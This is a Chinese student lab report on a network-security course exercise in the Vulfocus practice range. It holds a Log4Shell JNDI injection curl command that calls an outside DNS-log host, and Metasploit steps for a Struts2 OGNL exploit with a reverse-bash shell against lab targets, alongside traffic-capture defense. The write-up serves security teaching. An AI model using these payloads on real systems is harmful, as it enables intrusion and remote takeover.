



# 实验报告

> 该实验过程lillian-wang512，liu-jing-yao0526均有参与
>

## 实验目的

本仓库基于基础团队实践训练跟练复现完成的 网络安全(2021) 综合实验 。其中以红蓝队角色完成相应的网络攻防场景在线，其中主要是基于Vulfocus平台提供的靶场环境进行实验 以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色。 

- 红队：需完成漏洞存在性验证和漏洞利用。 
- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。 
- 蓝队威胁处置：漏洞利用的缓解和漏洞修复。 

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现 网络安全 (2021) 综合实验 中演示实验使用到的工具；进阶标准是能够使用课程视频中 未使用 的工具 或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。


## 实验环境

- kali虚拟机
- vulfocus平台提供的靶场环境


## 个人实践参与贡献

- [x] 环境配置

- [x] 漏洞存在性验证

- [x] 捕获指定容器的上下行流量

- [x] 外层网络渗透:攻破靶标 1

- [x] 异常流量检测与防护

- [x] 报告的编写和整理

  

## 实验步骤

### 配置环境

修改 webgoat8 默认监听 8088 端口避免和 juice-shop 的端口占用冲突

```shell
# 一次获取所有文件（包括所有子模块管理的文件）
git clone https://github.com/c4pr1c3/ctf-games.git --recursive
cd ctf-games
# （可选）单独更新子模块
git submodule init && git submodule update
# 启动 webgoat 系列服务
cd owasp/webgoat/ && docker-compose up -d
# 启动 juice-shop 及 shake-logger 服务
cd ../../owasp/juice-shop/ && docker-compose up -d
```


添加 vulfocus 的 docker-compose 编排封装

```shell
# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
sudo apt update && sudo apt install -y docker.io docker-compose jq
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}
```


```shell
# 切换到 root 用户
sudo su -
# 使用中科大 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
"registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}
EOF
# 重启 docker 守护进程
systemctl restart docker
# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```


### 漏洞存在性验证

```bash
cd ctf-games/fofapro/vulfocus
#cd到start.sh存在的目录下
sudo su 
#需要使用管理员权限
bash start.sh
#启动第一个docker
```




然后就可以利用IP访问vulfocus


利用用户名和密码admit登入vulfocus


在镜像管理里面搜索寻找log4j2 CVE-2021-44228漏洞并进行下载


在首页可以找到我们下载的漏洞程序



启动漏洞可以得到漏洞的访问地址(由于访问时间有限制，所以接口会隔一段时间变化，所以后文截到的接口也会有所不同)


启动后会得到新的端口，进入后可得新的界面


- **源代码审计**

```bash
#进入容器
$ docker exec -it optimistic_blackwell bash

#查看目录
$ ls

# docker cp <容器名称或ID>:<容器内⽂件路径> <宿主机⽬标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```

查看到容器目录下有 demo.jar 文件，拉取到容器的宿主机


关闭防火墙

```bash
#关闭防火墙
$ sudo ufw disable 
```


利用WINSCP将jar包传输到本机


进行反编译


### 漏洞可利用性验证

使用DNS下发网站：http://www.dnslog.cn/来获取注入的DNS


利用url编码转换器将要注入的payload转换成url形式


利用下面的命令进行jndi注入

```bash
curl -X GET http://192.168.76.128:9460/hello?payload=$%7Bjndi:ldap://sbhd8t.dnslog.cn/exp%7%0A
```


注入成功后可以在DNS网站检测到有结果反馈


然后传输给蓝队，蓝队进行漏洞利用评估得到flag


### 场景化漏洞攻击

> 以**跨网段渗透**(常见的`dmz`)为例

使用畅课平台上同学提供的手搓DMZ包进行环境编排，并进行修改，即打包的场景中位于内网的2层主机应该设置为不对外开放（对外开放由“true”改为“false”）,如果不进行设置的话启动环境会出现所有容器的访问链接（端口），即不能直接看出第一层主机的端口


下载并发布就能使用该场景，下载后会发现首页新增许多镜像


#### 捕获指定容器的上下行流量

为后续的攻击过程「分析取证」保存流量数据

```bash
# 建议放到 tmux 会话，然后放到后台运行
$ docker ps # 先查看目标容器名称或ID
$ container_name="<替换为目标容器名称或ID>"
$ docker run --rm --net=container:${container_name} -v {PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


然后就可以利用该端口得到可能的漏洞界面


#### 外层网络渗透:攻破靶标 1

切换到攻击者主机 attacker 进行 metasploit 基础配置

```bash
# metasploit 基础配置
# 更新 metasploit
$sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
$sudo msfdb init
```



```bash
# 启动 msfconsole
$msfconsole
```


```bash
# 确认已连接 pgsql
$db_status

# 建立工作区
$ workspace -a demo

# 查看工作区
$ workspace -l
```


要收集服务识别与版本等信息，不断搜索并且完善关键词，最后找到我们所需的 **exp**：`exploit/multi/http/struts2_multi_eval_ognl`

```bash
# search exp in metasploit
$ search struts2 type:exploit

# 查看 exp 详情
# 可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
$ info <结果编号或 Name 字段>

# 继续完善搜索关键词
$ search S2-059 type:exploit
```


找到我们所需的 exp 后就选择使用，并且选择设置合适的 exp payload

```bash
# 使用符合条件的 exp
$ use exploit/multi/http/struts2_multi_eval_ognl

# 查看可用 exp payloads
$ show payloads

# 使用合适的 exp payload
$ set payload payload/cmd/unix/reverse_bash
```


查看并且配置 exp 参数，确保所有 `Required=yes` 参数均正确配置

```bash
# 查看 exp 可配置参数列表
$ show options
```


```bash
# 靶机 IP
$ set RHOSTS 192.168.56.102

# 靶机目标端口
$ set rport 29669

# 攻击者主机 IP
$ set LHOST  192.168.142.255 

# 再次检查 exp 配置参数列表
$ show options
```


接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id

# get flag-1
$ ls /tmp
```

```bash
得到flag1:flag-{bmha6cc7d3b-47d8-46dc-b9ba-1dc8a9b74dfe}
# 通过 CTRL-Z 将当前会话放到后台继续执行
```


### 智能化漏洞威胁监测、漏洞攻击和缓解修复

#### 异常流量检测与防护

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量

获取容器的 PID （进程ID）

```bash
# 查看容器运⾏情况
docker ps

docker inspect -f '{{.State.Pid}}' <container_name>
# 请将 <container_name> 替换为要监视流量的容器的名称
```


使用 nsenter 命令进入容器的网络命名空间，并使用网络抓包工具（如 tcpdump 或 tshark ）来捕获和分析流量，能够在容器的 eth0 网络接口上捕获流量，并将结果保存到 captured_traffic.pcap 文件 中

```bash
nsenter -t <container_pid> -n
# 将 <container_pid> 替换为上⼀步中获取到的容器 PID

tcpdump -i eth0 -w captured_traffic.pcap
#使用网络抓包工具（如 tcpdump 或 tshark ）来捕获和分析流量
```


在 catch.pcap 文件中可以查看到所有访问到容器的流量,可以查看到疑似远程代码执行的攻击流量


## 实验中遇到的问题

1、虚拟机启动不起来或者经常性卡死的情况，可以将显示显存扩大以及系统处理器数量调大，但是也要注意本机的内存情况


2、在配置实验环境修改 webgoat8 默认监听 8088 端口的时候，会遇到权限报错，需要在管理员权限下运行


3、在解决jndi注入问题过程中还使用了log4j-scan，最后在进行扫描的时候并没能成功，通过vim打开log4j-scan，添加了payload的字段运行依旧未果，遂放弃，也曾怀疑是未安装好jndi本地的相关环境，但是配置好相关环境后也一直无果


4、jndi注入时POST和GET命令的替换，在使用POST命令时不能成功访问我们所构建起来的网址，只有改成GET后才能进行有效访问和注入，本来一直无法访问成功，打算使用其他方法比如Burpsuite等软件进行注入，已经下载安装并且找教程进行使用了，但后面突然想到GET和POST都有访问网址作用，于是转用GET进行处理并转换成url编码，最后成功


5、场景商店无法下载使用dmz，然后发现岩哥自己搭建了该场景并且无私地让同学们使用，感谢他


6、由于小组成员均未选修过java相关课程，所以还查阅资料进行了java环境配置


7、在使用docker的过程中遇到了docker容量不够需要扩容的情况


## 个人总结

通过这段时间的学习，我学习到了漏洞的相关知识而且也了解了攻击者如何利用漏洞进行攻击从而达到一些违法行为，也学习到了网络安全中相关的攻击方式、攻击手段和流程，同时也对防御方如何去应对攻击者复杂多变的攻击手段进行了解和实践研究，可以通过网络防护、漏洞修复、漏洞管理等措施积极防御。在此次实验中也感受到了团队合作互帮互助的魅力并且深入了解了网络安全的相关法律法规。


## 参考资料

[网络安全综合实验：开源信息系统搭建、加固与漏洞攻防课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E7%BB%BC%E5%90%88%E5%AE%9E%E9%AA%8C%E5%BC%80%E6%BA%90%E4%BF%A1%E6%81%AF%E7%B3%BB%E7%BB%9F%E6%90%AD%E5%BB%BA%E5%8A%A0%E5%9B%BA%E4%B8%8E%E6%BC%8F%E6%B4%9E%E6%94%BB%E9%98%B2)

[传媒网安教学 Wiki](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)

[网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/?wxfid=o7omF0RFgC-EhjhFVGU-bMY8u-_0&vd_source=afe64fd82a538cddd1f05576e7a8dcd9)

[Network-security-attack-and-defense-practice](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)

[vulfocus搭建和场景编排](http://www.cbww.cn/news/57034.shtml)

[Vulfocus 漏洞靶场 v0.3.2.9 场景商店上线](https://nosec.org/home/detail/4875.html)

[Vulfocus官网](https://vulfocus.cn/#/scene/list)

[Burpsuite下载安装教程](https://blog.csdn.net/weixin_51641247/article/details/129796879)

[使用 docker-compose一键搭建「漏洞练习环境」](https://github.com/c4pr1c3/ctf-games)

[纯净版 Kali 初始化基础环境](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

[理解 Log4Shell 漏洞](https://sspai.com/post/70394)

[给Kali Linux扩容磁盘](https://cloud.tencent.com/developer/article/1936205?from=15425)

[DNSLOG](http://www.dnslog.cn/)

